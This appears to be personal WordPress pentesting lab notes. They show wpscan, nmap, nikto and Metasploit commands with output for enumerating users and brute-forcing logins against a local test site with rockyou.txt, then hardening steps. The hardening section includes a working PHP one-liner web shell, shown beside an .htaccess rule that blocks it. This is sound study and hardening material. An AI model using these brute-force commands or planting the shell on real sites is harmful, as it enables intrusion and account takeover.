


# Get Worpress version

- View Page Source and search for the "wordpress"



# Check the exploit for the Wodpress version

https://www.exploit-db.com/


# Get Wordpress Users

- http://localhost:8081/?author=1




# wpscan


**Check wpscan version**

```
wpscan --version

_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

Current Version: 3.8.25
Last DB Update: 2024-06-03
```

**WPSCAN Scan URL**

```
wpscan --url http://192.168.1.12:8081

_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] It seems like you have not updated the database for some time.
[?] Do you want to update now? [Y]es [N]o, default: [N]Y
[i] Updating the Database ...
[i] Update completed.

[+] URL: http://192.168.1.12:8081/ [192.168.1.12]
[+] Started: Mon Jul  8 09:13:09 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Apache/2.4.10 (Debian)
 |  - X-Powered-By: PHP/5.6.28
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://192.168.1.12:8081/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://192.168.1.12:8081/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://192.168.1.12:8081/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.6.1 identified (Insecure, released on 2016-09-07).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://192.168.1.12:8081/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=4.6.1'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://192.168.1.12:8081/, Match: 'WordPress 4.6.1'

[i] The main theme could not be detected.

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <=================================================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Mon Jul  8 09:13:15 2024
[+] Requests Done: 174
[+] Cached Requests: 4
[+] Data Sent: 43.262 KB
[+] Data Received: 18.209 MB
[+] Memory used: 315.758 MB
[+] Elapsed time: 00:00:06
```

**Plugins detection (aggressive mode)**

```
wpscan --url http://192.168.1.12:8081 --plugins-detection aggressive
```


**Wordpress version detection**

```
wpscan --url http://192.168.1.12:8081 --wp-version-detection passive
```

# Enumeration Options

## **Wpscan Help enumerate**

```
wpscan --help | grep -A8 enumerate
    -e, --enumerate [OPTS]                        Enumeration Process
                                                  Available Choices:
                                                   vp   Vulnerable plugins
                                                   ap   All plugins
                                                   p    Popular plugins
                                                   vt   Vulnerable themes
                                                   at   All themes
                                                   t    Popular themes
                                                   tt   Timthumbs
```


## **Enumerate popular plugins**

```
wpscan --url http://192.168.1.12:8081 -e p --plugins-detection aggressive
```

## **Enumerate all plugins**

```
wpscan --url http://localhost:8081 -e ap --plugins-detection aggressive
```

## **Enumerate popular themes**

````
wpscan --url http://192.168.1.12:8081 -e t --themes-detection mixed
````

## **Enumerate all themes**

```
wpscan --url http://192.168.1.12:8081 -e at --themes-detection mixed
```

## **Enumerate Users**

```
wpscan --url http://192.168.1.12:8081 -e u --users-detection mixed
```

## Bruteforce users

```
wpscan --url http://192.168.1.12:8081 -e u --users-detection mixed --passwords password.txt
```


# Scan Wordpress

## nmap

```
nmap nmap 192.168.1.12
```

**Enable OS detection, version detection, script scanning, and traceroute**

```
nmap nmap 192.168.1.12 -A
```


## nikto

```
 nikto -h http://localhost:8081
```


# Metasploit

## Wordpress Scan

**Start metasploit**

```
/opt/metasploit-framework/bin/msfconsole
```

**Search wordpress scanner**

```
msf6 > search wordpress scanner

auxiliary/scanner/http/wordpress_scanner                       .                normal  No     Wordpress Scanner
```

**Use auxiliary/scanner/http/wordpress_scanner**

```
msf6 > use auxiliary/scanner/http/wordpress_scanner
```

**Show information about the module**

```
msf6 auxiliary(scanner/http/wordpress_scanner) > show info

       Name: Wordpress Scanner
     Module: auxiliary/scanner/http/wordpress_scanner
    License: Metasploit Framework License (BSD)
       Rank: Normal

Provided by:
  Christian Mehlmauer <FireFart@gmail.com>
  h00die
  shoxxdj

Check supported:
  No

Basic options:
  Name                 Current Setting                                 Required  Description
  ----                 ---------------                                 --------  -----------
  EXPLOITABLE          true                                            no        Only scan plugins and themes which a MSF module exists for
  EXPLOITABLE_PLUGINS  /opt/metasploit-framework/embedded/framework/d  yes       File containing exploitable by MSF plugins
                       ata/wordlists/wp-exploitable-plugins.txt
  EXPLOITABLE_THEMES   /opt/metasploit-framework/embedded/framework/d  yes       File containing exploitable by MSF themes
                       ata/wordlists/wp-exploitable-themes.txt
  PLUGINS              true                                            no        Detect plugins
  PLUGINS_FILE         /opt/metasploit-framework/embedded/framework/d  yes       File containing plugins to enumerate
                       ata/wordlists/wp-plugins.txt
  PROGRESS             1000                                            yes       how often to print progress
  Proxies                                                              no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                                                               yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/usin
                                                                                 g-metasploit.html
  RPORT                80                                              yes       The target port (TCP)
  SSL                  false                                           no        Negotiate SSL/TLS for outgoing connections
  TARGETURI            /                                               yes       The base path to the wordpress application
  THEMES               true                                            no        Detect themes
  THEMES_FILE          /opt/metasploit-framework/embedded/framework/d  yes       File containing themes to enumerate
                       ata/wordlists/wp-themes.txt
  THREADS              1                                               yes       The number of concurrent threads (max one per host)
  USERS                true                                            no        Detect users with API
  VHOST                                                                no        HTTP server virtual host

Description:
  Detects Wordpress Versions, Themes, Plugins, and Users


View the full module info with the info -d command.
```

**Set Remote HOSTS and Remote PORT**

```
msf6 auxiliary(scanner/http/wordpress_scanner) > set RHOSTS localhost

msf6 auxiliary(scanner/http/wordpress_scanner) > set RPORT 8081
```

**Show options**

```
msf6 auxiliary(scanner/http/wordpress_scanner) > show options

Module options (auxiliary/scanner/http/wordpress_scanner):

   Name                 Current Setting                                 Required  Description
   ----                 ---------------                                 --------  -----------
   EXPLOITABLE          true                                            no        Only scan plugins and themes which a MSF module exists for
   EXPLOITABLE_PLUGINS  /opt/metasploit-framework/embedded/framework/d  yes       File containing exploitable by MSF plugins
                        ata/wordlists/wp-exploitable-plugins.txt
   EXPLOITABLE_THEMES   /opt/metasploit-framework/embedded/framework/d  yes       File containing exploitable by MSF themes
                        ata/wordlists/wp-exploitable-themes.txt
   PLUGINS              true                                            no        Detect plugins
   PLUGINS_FILE         /opt/metasploit-framework/embedded/framework/d  yes       File containing plugins to enumerate
                        ata/wordlists/wp-plugins.txt
   PROGRESS             1000                                            yes       how often to print progress
   Proxies                                                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS               localhost                                       yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/usi
                                                                                  ng-metasploit.html
   RPORT                8082                                            yes       The target port (TCP)
   SSL                  false                                           no        Negotiate SSL/TLS for outgoing connections
   TARGETURI            /                                               yes       The base path to the wordpress application
   THEMES               true                                            no        Detect themes
   THEMES_FILE          /opt/metasploit-framework/embedded/framework/d  yes       File containing themes to enumerate
                        ata/wordlists/wp-themes.txt
   THREADS              1                                               yes       The number of concurrent threads (max one per host)
   USERS                true                                            no        Detect users with API
   VHOST                                                                no        HTTP server virtual host
```

**Run the scan**

```
msf6 auxiliary(scanner/http/wordpress_scanner) > run

[*] Trying 127.0.0.1
[+] 127.0.0.1 - Detected Wordpress 4.6
[*] 127.0.0.1 - Enumerating Themes
[*] 127.0.0.1 - Progress  0/3 (0.0%)
[*] 127.0.0.1 - Finished scanning themes
[*] 127.0.0.1 - Enumerating plugins
[*] 127.0.0.1 - Progress   0/64 (0.0%)
[*] 127.0.0.1 - Finished scanning plugins
[*] 127.0.0.1 - Searching Users
[*] 127.0.0.1 - Was not able to identify users on site using /wp-json/wp/v2/users
[*] 127.0.0.1 - Finished all scans
[*] Scanned 1 of 2 hosts (50% complete)
[*] Trying ::1
[+] ::1 - Detected Wordpress 4.6
[*] ::1 - Enumerating Themes
[*] ::1 - Progress  0/3 (0.0%)
[*] ::1 - Finished scanning themes
[*] ::1 - Enumerating plugins
[*] ::1 - Progress   0/64 (0.0%)
[*] Scanned 1 of 2 hosts (50% complete)
[*] Scanned 1 of 2 hosts (50% complete)
[*] ::1 - Finished scanning plugins
[*] ::1 - Searching Users
[*] ::1 - Was not able to identify users on site using /wp-json/wp/v2/users
[*] ::1 - Finished all scans
[*] Scanned 2 of 2 hosts (100% complete)
[*] Auxiliary module execution completed
```

## Wordpress User Enumeration

Search wo"wordpress login"

```
msf6 auxiliary(scanner/http/wordpress_scanner) > search wordpress login

Matching Modules
================

   #  Name                                                           Disclosure Date  Rank    Check  Description
   -  ----                                                           ---------------  ----    -----  -----------
   0  auxiliary/scanner/http/wordpress_login_enum                    .                normal  No     WordPress Brute Force and User Enumeration Utility
   1  auxiliary/scanner/http/wp_loginizer_log_sqli                   2020-10-21       normal  No     WordPress Loginizer log SQLi Scanner
   2  auxiliary/admin/http/wp_easycart_privilege_escalation          2015-02-25       normal  Yes    WordPress WP EasyCart Plugin Privilege Escalation
   3  auxiliary/admin/http/wp_wplms_privilege_escalation             2015-02-09       normal  Yes    WordPress WPLMS Theme Privilege Escalation
   4  auxiliary/scanner/http/wp_wps_hide_login_revealer              2021-10-27       normal  No     WordPress WPS Hide Login Login Page Revealer
   5  auxiliary/scanner/http/wp_paid_membership_pro_code_sqli        2023-01-12       normal  Yes    Wordpress Paid Membership Pro code Unauthenticated SQLi
   6  auxiliary/scanner/http/wp_secure_copy_content_protection_sqli  2021-11-08       normal  Yes    Wordpress Secure Copy Content Protection and Content Locking sccp_id Unauthenticated SQLi
   7  auxiliary/scanner/http/wordpress_xmlrpc_login                  .                normal  No     Wordpress XML-RPC Username/Password Login Scanner


Interact with a module by name or index. For example info 7, use 7 or use auxiliary/scanner/http/wordpress_xmlrpc_login
```

**Use auxiliary/scanner/http/wordpress_login_enum**

```
msf6 auxiliary(scanner/http/wordpress_scanner) > use auxiliary/scanner/http/wordpress_login_enum
```

**Show info**

```
msf6 auxiliary(scanner/http/wordpress_login_enum) > show info

       Name: WordPress Brute Force and User Enumeration Utility
     Module: auxiliary/scanner/http/wordpress_login_enum
    License: Metasploit Framework License (BSD)
       Rank: Normal

Provided by:
  Tiago Ferreira <tiago.ccna@gmail.com>
  Zach Grace <zgrace@404labs.com>
  Christian Mehlmauer <FireFart@gmail.com>

Check supported:
  No

Basic options:
  Name                 Current Setting  Required  Description
  ----                 ---------------  --------  -----------
  ANONYMOUS_LOGIN      false            yes       Attempt to login with a blank username and password
  BLANK_PASSWORDS      false            no        Try blank passwords for all users
  BRUTEFORCE           false            yes       Perform brute force authentication
  BRUTEFORCE_SPEED     5                yes       How fast to bruteforce, from 0 to 5
  DB_ALL_CREDS         false            no        Try each user/password couple stored in the current database
  DB_ALL_PASS          false            no        Add all passwords in the current database to the list
  DB_ALL_USERS         false            no        Add all users in the current database to the list
  DB_SKIP_EXISTING     none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
  ENUMERATE_USERNAMES  true             yes       Enumerate usernames
  PASSWORD                              no        A specific password to authenticate with
  PASS_FILE                             no        File containing passwords, one per line
  Proxies                               no        A proxy chain of format type:host:port[,type:host:port][...]
  RANGE_END            10               no        Last user id to enumerate
  RANGE_START          1                no        First user id to enumerate
  RHOSTS               localhost        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
  RPORT                8081             yes       The target port (TCP)
  SSL                  false            no        Negotiate SSL/TLS for outgoing connections
  STOP_ON_SUCCESS      false            yes       Stop guessing when a credential works for a host
  TARGETURI            /                yes       The base path to the wordpress application
  THREADS              1                yes       The number of concurrent threads (max one per host)
  USERNAME                              no        A specific username to authenticate as
  USERPASS_FILE                         no        File containing users and passwords separated by space, one pair per line
  USER_AS_PASS         false            no        Try the username as the password for all users
  USER_FILE                             no        File containing usernames, one per line
  VALIDATE_USERS       true             yes       Validate usernames
  VERBOSE              true             yes       Whether to print output for all attempts
  VHOST                                 no        HTTP server virtual host

Description:
  WordPress Authentication Brute Force and User Enumeration Utility

References:
  http://www.securityfocus.com/bid/35581
  https://nvd.nist.gov/vuln/detail/CVE-2009-2335
  OSVDB (55713)


View the full module info with the info -d command.
```

**Set options**

```
msf6 auxiliary(scanner/http/wordpress_login_enum) > set RHOSTS localhost
RHOSTS => localhost

msf6 auxiliary(scanner/http/wordpress_login_enum) > set RPORT 8081
RPORT => 8081

msf6 auxiliary(scanner/http/wordpress_login_enum) > set BRUTEFORCE false
BRUTEFORCE => false

msf6 auxiliary(scanner/http/wordpress_login_enum) > set USER_FILE /Users/sherwinowen/usernames.txt
USER_FILE => /Users/sherwinowen/usernames.txt
```

**Exploit**

```
msf6 auxiliary(scanner/http/wordpress_login_enum) > exploit

[*] / - WordPress Version 4.6.1 detected
[*] 127.0.0.1:8081 - / - WordPress User-Enumeration - Running User Enumeration
[*] 127.0.0.1:8081 - / - WordPress User-Validation - Running User Validation
[*] / - WordPress User-Validation - Checking Username:'admin'
[+] / - WordPress User-Validation - Username: 'admin' - is VALID
[*] / - WordPress User-Validation - Checking Username:'owen'
[+] / - WordPress User-Validation - Username: 'owen' - is VALID 
```

##  Wordpress User Bruteforce

**Set options**

```
msf6 auxiliary(scanner/http/wordpress_login_enum) > set BRUTEFORCE True
BRUTEFORCE => true

msf6 auxiliary(scanner/http/wordpress_login_enum) > set PASS_FILE /Users/sherwinowen/Downloads/rockyou.txt
PASS_FILE => /Users/sherwinowen/Downloads/rockyou.txt

msf6 auxiliary(scanner/http/wordpress_login_enum) > set USERNAME admin
USERNAME => admin

msf6 auxiliary(scanner/http/wordpress_login_enum) > exploit
```


# Wordpress Hardening

## Stop user enumeration


## Enable 2 Factor Authentication

- Install plugins **Two Factor Authentication**


## Install a Security Plugin

- Sucuri
- Malcare
- Wordfence 


## Change Default "admin" username

Change the user admin in wordpress database

```
update wp_users set user_login = 'owen-admin' where ID = 1;
```


## Disable File Editing and Plugin Upload

Add this line of code in wp-config.php

```
define('DISALLOW_FILE_MODS', true ); 
```


## Move or rename wp-admin and wp-login

Install plugins

- WPS Hide Login


## Fix your Wordpress Security

Install plugins

- WP Hardening


## Disable PHP File Execution in Certain WordPress Directories

**Simple Shell Backdoor**

simple-shell.php

```
<!-- Simple PHP Backdoor By DK (One-Liner Version) -->
<!-- Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd -->
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```

**Deny executing php files**

.htaccess

```
<Files *.php>
deny from all
</Files>
```


## Limit Login Attempts

Install plugins

- Login LockDown


## Disable XML-RPC 

Add this lines in the .htaccess from the main folder

.htaccess

```
# Block Wordpress xmlrpc.php requests
<Files xmlrpc.php>
order deny,allow
 deny from all
 allow from 1.1.1.1
</files>
```

Note:

Disabled xmlrpc.php cannot be can by wpscan


## Automatically log out idle users in Wordpress

Install plugins

- Inactive Logout

